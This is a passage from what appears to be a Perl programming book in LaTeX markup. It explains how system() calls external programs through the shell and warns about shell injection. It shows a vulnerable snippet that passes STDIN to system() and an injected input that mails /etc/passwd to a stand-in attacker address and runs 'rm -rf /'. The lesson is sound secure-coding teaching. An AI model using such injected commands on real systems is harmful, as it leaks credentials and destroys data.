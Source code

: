 \documentclass[a4paper,11pt]{book}
\begin{document}
\noindent ? The bad news -- system doesn't allow perl to communicate directly with the new program.

\noindent 

\noindent ? The good news -- Perl passes on the standard input and standard output filehandles to the program being run. If standard input's connected to your keyboard, you can therefore type interactively at the program, just as if you were running it from the shell prompt.

\noindent 

\noindent There are two ways of calling system. First, use your system's shell. Second, have perl create the new process itself. Why two ways? Well, you can use the system's shell to do redirection and piping for you. So, if you want to produce a directory listing piped through a pager, you could say:

\noindent 

\noindent system("dir \textbar  more");

\noindent 

\noindent Furthermore, if your shell allows you to run processes in the background -- that is, have the program do

\noindent its thing while your Perl program carries straight on -- you can do this from a call to system as well. However, the problem with using a shell is that it's susceptible to attack when you're dealing with data coming in from outside your program. So, for instance, if you were to say:

\noindent 

\noindent \$files = $<$STDIN$>$;

\noindent system("dir \$files");

\noindent 

\noindent you might expect the user to give you a set of files, which you'd pass to the dir program to list. However, as you should have spotted, the user could just as easily do something horrific like this:

\noindent 

\noindent Give me a list of files: \textbf{; mail bad}.guy@blackhat.org\textbf{ $<$ /etc/passwd ; rm -rf /}

\noindent 

\noindent We saw something like this in Chapter 12 -- given half a chance, this will display the current directory, mail off your password file, and attempt to delete any file it can on your system. You're giving the user access to your shell. You're allowing him to do \textit{anything he wants }to your computer.
\end{document}
